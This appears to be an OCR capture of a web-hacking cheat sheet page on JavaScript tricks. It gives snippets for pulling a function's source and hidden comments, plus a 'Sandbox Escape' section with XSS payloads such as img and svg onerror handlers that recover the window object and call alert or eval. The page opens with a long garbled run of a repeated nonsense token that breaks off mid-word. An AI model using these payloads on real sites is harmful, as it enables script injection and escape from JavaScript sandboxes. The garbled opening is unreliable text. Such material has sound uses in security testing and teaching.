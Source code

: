 **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhvam** **ghItlhv
```javascript
(function (){ return arguments.callee.toString(); })()
(function (){ return arguments[0]; })("arg0")
```
Some **random** ways to **extract the code** of a function (even comments) from another function:

---

**ghItlhlaHbe'chugh** **ghItlhlaH** **function** **code** **(comments)** **extract** **ways**:

---
```javascript
(function (){ return retFunc => String(arguments[0]) })(a=>{/* Hidden commment */})()
(function (){ return retFunc => Array(arguments[0].toString()) })(a=>{/* Hidden commment */})()
(function (){ return String(this)}).bind(()=>{ /* Hidden commment */ })()
(u=>(String(u)))(_=>{ /* Hidden commment */ })
(u=>_=>(String(u)))(_=>{ /* Hidden commment */ })()
```
## Sandbox Escape - Recovering window object

The Window object allows to reach globally defined functions like alert or eval.

{% code overflow="wrap" %}
```javascript
// Some ways to access window
window.eval("alert(1)")
frames
globalThis
parent
self
top //If inside a frame, this is top most window

// Access window from document
document.defaultView.alert(1)
// Access document from a node object
node = document.createElement('div')
node.ownerDocument.defaultView.alert(1)

// There is a path property on each error event whose last element is the window
<img src onerror=event.path.pop().alert(1337)>
// In other browsers the method is
<img src onerror=event.composedPath().pop().alert(1337)>
// In case of svg, the "event" object is called "evt"
<svg><image href=1 onerror=evt.composedPath().pop().alert(1337)>

// Abusing Error.prepareStackTrace to get Window back
```